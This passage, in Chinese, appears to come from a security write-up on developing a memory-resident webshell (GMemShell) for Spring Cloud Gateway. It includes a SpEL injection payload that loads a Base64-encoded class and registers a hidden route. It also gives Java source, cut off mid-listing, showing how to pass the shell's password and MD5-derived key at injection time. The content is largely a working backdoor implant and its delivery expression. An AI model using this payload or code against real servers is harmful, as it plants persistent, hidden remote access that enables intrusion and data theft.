 因为在前面`GMemShell.java`这个文件中，`pass/key`是全局静态变量，所以不能像`path`变量这样直接向`doInject`方法传参，所以一开始的想法是打算从 SpEL 表达式入手
```http
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('GMemShell',T(org.springframework.util.Base64Utils).decodeFromString('<Base64字符串>'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping, '</路由>')}
```
从`org.springframework.cglib.core.ReflectUtils`这个类可以看到，上面的表达式中向这个类中的`defineClass`方法传入了3个参数：`className`类名、`byte[]`字节数组、`loader`类加载器，没有找到可以利用的点

![Spring-Cloud-Gateway-MemShell-12](assets/Spring-Cloud-Gateway-MemShell-12.png)

后来想到其实可以先定义全局变量`pass`和`key`，然后通过向`doInject`方法中传递密码`passKey`和密钥`keyStr`参数并进行覆盖即可~~（前面想得复杂了）~~。另外`keyStr`需要进行 MD5 加密并截取前 16 位，这里加密部分可以直接调用 Spring 中的`DigestUtils`类，所以还需要引入该类。（参考：[Java MD5 算法实现](https://www.jianshu.com/p/1fe26fc3643a)）
```java
import org.springframework.http.HttpStatus;
import org.springframework.http.ResponseEntity;
import org.springframework.util.DigestUtils;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.reactive.result.method.RequestMappingInfo;
import org.springframework.web.server.ServerWebExchange;
import reactor.core.publisher.Mono;

import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.HashMap;
import java.util.Map;

public class GMemShell {
  public static Map<String, Object> store = new HashMap<>();
  
  public static String pass, md5, key;
  
  public static String doInject(Object obj, String path, String passStr, String keyStr) {
    String msg;
    
    pass = passStr;
    key = DigestUtils.md5DigestAsHex(keyStr.getBytes()).substring(0, 16);
    
```